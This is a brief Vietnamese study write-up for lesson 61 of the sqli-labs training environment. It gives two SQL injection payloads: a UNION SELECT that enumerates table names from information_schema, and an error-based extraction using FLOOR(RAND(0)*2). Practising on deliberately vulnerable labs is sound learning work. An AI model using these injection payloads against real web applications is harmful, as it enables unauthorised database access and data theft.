

# Những việc làm được với lesson-61
Việc check xem nó là dạng DB gì thì làm giống như những lesson trước. Ta sẽ sử dụng command `nmap`

Sau khi đăng nhập vào lesson-61


1. Cấu trúc của bài này 
```
192.168.80.225/sqli-labs/Less-61/?id=0')) union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='challenges' --+
```

Tương tự làm giống như bài 60
```
192.168.80.225/sqli-labs/Less-61/?id=1')) and (SELECT 0 FROM (SELECT count(*), CONCAT((SELECT table_name from information_schema.tables where table_schema='challenges' ), 0x3a, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```


Tồi ta sẽ di tìm key của bài này như những bài trước 

